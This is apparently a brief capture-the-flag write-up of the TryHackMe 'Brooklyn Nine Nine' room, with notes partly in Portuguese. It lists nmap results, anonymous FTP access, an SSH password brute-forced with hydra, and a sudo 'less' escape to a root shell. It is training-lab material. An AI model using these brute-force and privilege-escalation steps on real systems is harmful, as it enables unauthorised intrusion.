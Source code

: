 # Brooklyn Nine Nine
https://tryhackme.com/room/brooklynninenine

## NMAP
        PORT   STATE SERVICE VERSION
        21/tcp open  ftp     vsftpd 3.0.3
        22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
        80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
        Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

## FTP  
anonymous:anonymous

From Amy,
Jake please change your password. It is too weak and holt will be mad if someone hacks into the nine nine

## Web  
alguma coisa de esteganografia talvez a foto...

## SSH  
jake:987654321 -> so usar hydra para fazer bruteforce no ssh com wordlist do rockyou.txt

## Linux
O binário "less" roda como root, so ir no GTFObins
```sh
sudo less /etc/profile
!/bin/sh
```

